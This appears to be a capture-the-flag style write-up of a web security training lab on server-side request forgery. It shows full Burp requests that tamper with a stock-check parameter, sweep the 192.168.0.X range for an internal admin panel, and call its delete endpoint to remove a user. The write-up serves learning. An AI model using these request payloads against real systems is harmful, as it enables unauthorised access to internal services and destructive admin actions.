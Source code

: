 *This lab has a stock check feature which fetches data from an internal system. To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos.*

Greeted with the same page with the products. Clicked on a product, which had the *check stock* feature, same as the previous lab. 

Captured the intercept when clicking the *check stock* feature, with the following output from Burp: 

```Burp 
POST /product/stock HTTP/2
Host: 0a00005603d99bce81a7c299003e005a.web-security-academy.net
Cookie: session=ZEgCcvqxPOaQgyY2mr78sD5NaLmjqtw1
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a00005603d99bce81a7c299003e005a.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0a00005603d99bce81a7c299003e005a.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```
 Sent this to Burp Intruder, where I modified the `stockApi` as such below : 
```Burp 
POST /product/stock HTTP/2
Host: 0a00005603d99bce81a7c299003e005a.web-security-academy.net
Cookie: session=ZEgCcvqxPOaQgyY2mr78sD5NaLmjqtw1
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a00005603d99bce81a7c299003e005a.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0a00005603d99bce81a7c299003e005a.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://192.168.0.§0§:8080/admin
```

The payload I used was a list of numbers from 1 to 256. I then commenced the Sniper attack. 

Sorting the output by status code, I noticed that only 1 payload returned a 200 OK status code, as seen below: 

![Screenshot 2024-04-30 at 6.29.57 PM](images/Screenshot%202024-04-30%20at%206.29.57%20PM.png)

This was for `192.168.0.145`. Sending this to the Repeater, I managed to obtain the following response: 

```Burp 
<div>
	<span>carlos - </span>
	<a href="/http://192.168.0.145:8080/admin/delete?username=carlos">Delete</a>
</div>
```

I then modified the request in the Repeater to the following: 
```Burp 
POST /product/stock HTTP/2
Host: 0a00005603d99bce81a7c299003e005a.web-security-academy.net
Cookie: session=ZEgCcvqxPOaQgyY2mr78sD5NaLmjqtw1
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a00005603d99bce81a7c299003e005a.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: https://0a00005603d99bce81a7c299003e005a.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://192.168.0.145:8080/admin/delete?username=carlos
```

The following success message was displayed! 
```Burp 
HTTP/2 302 Found
Location: http://192.168.0.145:8080/admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
